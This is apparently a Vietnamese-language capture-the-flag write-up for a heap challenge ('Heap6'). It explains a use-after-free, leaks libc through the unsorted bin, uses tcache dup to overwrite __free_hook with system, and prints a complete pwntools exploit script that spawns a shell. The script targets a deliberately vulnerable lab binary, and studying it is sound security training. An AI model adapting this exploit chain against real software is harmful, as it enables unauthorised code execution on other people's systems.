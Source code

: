 # Heap_Exploit - Heap6

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn6_hoo_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.28.so, for GNU/Linux 3.2.0, BuildID[sha1]=2bab9b4759f0784ceabd4f99b1fe29307160a32b, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```
Ném file vào ida64-pro:

![main.png](images/main.png)

Ở đây ta có 5 options trong đó `createHeap()` sẽ cấp phát 1 size cố định là 0x80 cho mỗi index

![create.png](images/create.png)

Và ở `deleteHeap()` ta thấy ở đây chỉ free chunk chứ không set null

![delete.png](images/delete.png)

# 2. Khai thác

- Bước 1: Leak libc base

```
for i in range(9):
    create(i, b"\x00") 
for i in range(8):
    free(i)
show(7)
p.recvuntil(b"Data = ")
base = int.from_bytes(p.recv(6),"little") - 0x3B2CA0
print("Libc_base:", hex(base))
```
Vì ở đây sử dụng `libc.2.28.so` nên `Tcache` -> enable

![tcache.png](images/tcache.png)

Do tcache chỉ lưu trữ được 1 lượng chunk nhất định (ở đây sẽ là 7 chunk với size 0x80 thêm 0x10 metadata sẽ là 0x90)

Chúng ta tạo 9 chunk và free hết chúng đi để kiểm chứng:

![bins1.png](images/bins1.png)

Ở đây dù đã free 8 chunk nhưng chỉ 7 chunk xuất hiện ở tcache size 0x90 -> chunk còn lại sẽ trỏ đến `main_area + 96` tại unsortedbin

![unsort.png](images/unsort.png)

Mà hàm `showHeap()` lại không check xem chunk đã free hay chưa nên ta sẽ show chunk_7 leak được địa chỉ libc hay heap dễ dàng.

- Bước 2: Get shell

```
free_hook = base + 0x3B48E8
system = base + 0x41af0
print("\nFree_hook:   ", hex(free_hook))
print("System:      ", hex(system))
for i in range(7):
    create(i, b"\x00") 
create(0, b"\x00")
free(0)
free(0)
create(6,p64(free_hook))
create(1,b"/bin/sh\x00")
create(6,p64(system))
free(1)
```

Lợi dụng tcache_dup để ghi ghi `system()` vào `free_hook`

Trước tiên cứ fill hết 7 chunk trong `Tcache`

Không như những bài trước, bài này full giáp nên không ghi đè vào `atoi()` được

![atoi.png](images/atoi.png)

Cũng như không bị lỗi double free() nên không lợi dụng khi vào `malloc_hook` được

Nhìn vào `deleteHeap()` có hàm free data mà ta nhập vào từ trước:

![free.png](images/free.png)

Rồi ta free() chunk chứa `/bin/sh` để gọi `system` đã bị ghi vào `free_hook`.

# Get_shell

![shell.png](images/shell.png)


# Full code:

```
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("pwn6_hoo_patched")
libc = elf.libc

local = True 
if local:
    p = process("./pwn6_hoo_patched")
    #gdb.attach(p,'''''')
else:
    p = remote('', 1337)

elf = context.binary = ELF('./pwn6_hoo_patched', checksec=False)

def create(idx,data):
    p.sendafter(b">",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input data:",data)
def show(idx):
    p.sendafter(b">",b"2")
    p.sendafter(b"Index:",str(idx))
def edit(index,data):
    p.sendafter(b">",b"3")
    p.sendafter(b"Input index:",str(index))
    p.send(data)
def free(idx):
    p.sendafter(b">",b"4")
    p.sendafter(b"Input index:",str(idx))


##########################
# STEP_1: LEAK_LIBC_BASE #
##########################

for i in range(9):
    create(i, b"\x00") 
for i in range(8):
    free(i)
show(7)
p.recvuntil(b"Data = ")
base = int.from_bytes(p.recv(6),"little") - 0x3B2CA0
print("\nLibc_base:   ", hex(base))

show(6)
p.recvuntil(b"Data = ")
heap = int.from_bytes(p.recv(6),"little") - 0x530
print("\nHeap_base:   ", hex(heap))

##########################
# STEP_2: CALCULATE_ADDR #
##########################

free_hook = base + 0x3B48E8
system = base + 0x41af0
print("\nFree_hook:   ", hex(free_hook))
print("System:      ", hex(system))

#####################
# STEP_3: GET_SHELL #
#####################
for i in range(7):
    create(i, b"\x00") 
create(0, b"\x00")
free(0)
free(0)
create(6,p64(free_hook))
create(1,b"/bin/sh\x00")
create(6,p64(system))
free(1)

p.interactive()
```


